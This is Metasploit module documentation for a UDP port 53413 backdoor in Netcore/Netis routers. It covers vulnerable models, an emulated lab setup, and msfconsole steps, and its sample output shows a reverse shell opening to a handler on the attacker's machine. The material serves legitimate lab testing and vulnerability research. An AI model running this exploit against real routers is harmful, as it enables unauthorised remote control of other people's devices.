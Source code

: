 ## Vulnerable Devices/Lab

### Vulnerable Devices
Trend Micro lists "almost all" models as being vulnerable in August 2014.

Vulnerable AND Exploitable:

1. Netcore NI360 second-generation
 
Vulnerable, but not Exploitable via this module (details later):

1. Netis WF2414 firmware V1.4.27001

### Lab Emulation
1. Install qemu
2. Download and install mipsel.  Please read the [tutorial](https://people.debian.org/%7Eaurel32/qemu/mipsel/README.txt)
3. Starts the mipsel lab
 1. `qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net user,hostfwd=tcp::22222-:22,hostfwd=udp::53413-:53413`
4. Put [vuln_squashfs-root.tar.gz](https://github.com/rapid7/metasploit-framework/files/267284/vuln_squashfs-root.tar.gz) to mipsel lab, extract it.
 1. `scp -P22222 vuln_squashfs-root.tar.gz root@127.0.0.1:/root`
 2. `tar xvf vuln_squashfs-root.tar.gz`
5. Run vuln programs.
 1. `cd nw614 && chroot . /bin/igdmptd`

## Verification Steps

  1. Install the emulator/hardware
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/netcore_udp_53413_backdoor`
  4. Do: `set RHOST <ip>`
  5. Do: `check`
  6. Do: `exploit`
  7. You should get a shell.

## Exploitability

As previously noted, some modules are vulnerable, but not currently exploitable via Metasploit.
During [testing](https://github.com/rapid7/metasploit-framework/pull/6880#issuecomment-231597626) it was discovered that some modules implement an echo command that does not honor -ne.  While it may be possible to still execute a shell, further investigation would need to be conducted.
In these cases, it should be possible to use [other scripts](https://github.com/h00die/MSF-Testing-Scripts/blob/master/netis_backdoor.py) to act as a fake interactive shell.

## Scenarios

The following is an example of a vulnerable AND EXPLOITABLE router.

```
use exploits/linux/misc/netcore_udp_53413_backdoor
msf exploit(netcore_udp_53413_backdoor) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netcore_udp_53413_backdoor) > check
[+] The target is vulnerable.
msf exploit(netcore_udp_53413_backdoor) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Exploiting...
[*] Command Stager progress -  12.54% done (196/1563 bytes)
[*] Command Stager progress -  25.08% done (392/1563 bytes)
[*] Command Stager progress -  37.62% done (588/1563 bytes)
[*] Command Stager progress -  50.16% done (784/1563 bytes)
[*] Command Stager progress -  62.70% done (980/1563 bytes)
[*] Command Stager progress -  75.24% done (1176/1563 bytes)
[*] Command Stager progress -  87.78% done (1372/1563 bytes)
[*] Command Stager progress - 100.00% done (1563/1563 bytes)
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:54180) at 2016-05-16 00:52:43 -0500

pwd
/
ls
bin
cfg
dev
etc
lib
linuxrc
log
proc
sbin
sh
sys
tmp
usr
var
web
```

The following is an example of a vulnerable but NOT expoitable router.
```
msf > use exploits/linux/misc/netcore_udp_53413_backdoor
msf exploit(netcore_udp_53413_backdoor) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(netcore_udp_53413_backdoor) > check

[+] Backdoor Unlocked
[*] Router backdoor triggered, but non-exploitable echo command detected.  Not currently exploitable with Metasploit.
[*] The target service is running, but could not be validated.
```